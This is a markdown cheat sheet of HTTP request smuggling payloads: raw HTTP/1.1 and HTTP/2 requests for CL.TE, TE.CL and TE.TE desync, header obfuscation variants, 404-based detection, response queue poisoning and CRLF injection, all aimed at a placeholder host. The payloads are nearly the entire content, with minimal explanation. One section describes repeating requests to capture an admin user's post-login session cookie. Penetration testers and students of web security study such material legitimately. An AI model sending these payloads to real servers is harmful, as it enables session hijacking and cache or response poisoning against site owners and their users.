 # Request Smuggling

## Finding CL.TE vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Transfer-Encoding: chunked

a
b
```

## Finding TE.CL vulnerabilities using timing techniques
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100
Transfer-Encoding: chunked

0

x
```

## CL.TE vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

## TE.CL vulnerabilities
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-length: 4
Transfer-Encoding: chunked

2b
GPOST / HTTP/1.1
Content-Length: 15

x=1
0
\r\n
\r\n
```

## TE.TE behavior: obfuscating the TE header
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

## Finding H2.CL vulnerabilities using 404 techniques
```
POST / HTTP/2
Host: vulnerable-website.com
Content-Length: 0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.

## Finding H2.TE vulnerabilities using 404 techniques
```
POST / HTTP/2
Host: vulnerable-website.com
Transfer-Encoding: chunked

0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.

## Response queue poisoning via H2.TE request smuggling
```
POST /x HTTP/2
Host: vulnerable-website.com
Transfer-Encoding: chunked

0

GET /x HTTP/1.1
Host: vulnerable-website.com
\r\n
\r\n
```
Most of the time, you will receive your own 404 response. Any other response code indicates that you have successfully captured a response intended for the admin user. Repeat this process until you capture a 302 response containing the admin's new post-login session cookie.

## HTTP/2 request smuggling via CRLF injection
```
POST / HTTP/2
Host: vulnerable-website.com
Foo: bar\r\nTransfer-Encoding: chunked

0

SMUGGLED
```
Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.

## HTTP/2 request splitting via CRLF injection
<table>
    <tr>
        <td>:method</td>
        <td>GET</td>
    </tr>
    <tr>
        <td>:path</td>
        <td>/x</td>
    </tr>
    <tr>
        <td>:authority</td>
        <td>vulnerable-website.com</td>
    </tr>
    <tr>
        <td>foo</td>
        <td>
            <p>bar\r\n<br>
            \r\n<br>
            GET /x HTTP/1.1\r\n<br>
            Host: vulnerable-website.com</p>
        </td>
    </tr>
</table>
